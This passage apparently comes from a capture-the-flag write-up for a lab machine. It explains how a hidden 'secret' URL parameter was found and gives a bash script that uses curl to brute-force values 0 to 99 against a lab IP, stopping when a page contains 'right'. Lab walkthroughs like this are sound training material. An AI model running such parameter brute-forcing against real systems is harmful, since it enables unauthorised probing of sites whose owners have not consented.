 **He left some unwanted text inside. We know now, that the secret is between 0 and 99, but in the same time, looking into the page we see that there was already a secret entered. Maybe it's a parameter of the page we could enter; let's go on:  + !! don't forget to modify the url and include the hidden found directory**

``http://10.10.94.80/x/?secret=2``

# ![9](images/secreted(1).jpg?raw=true "secret")

**Our secret seems to be entered and read inside the page, so let's go ahead and create a mini brute-force script to check 100 possible variants.**

+ **I'm gonna use curl to get my requests and page data and i will write a shell script**

```bash
#!/bin/bash

for i in {0..99}
do
        # modify the ip address below and the hidden directory that you found
        curl --silent http://10.10.94.80/x/?secret=$i | grep right >> /dev/null

        if [ $? -eq 0 ]
        then
                echo "$i is our SECRET page"
                # modify the ip address below and the hidden directory that you found
                curl --silent http://10.10.94.80/x/?secret=$i
                break;
        else
                echo "Secret $i is wrong"
        fi
done

```
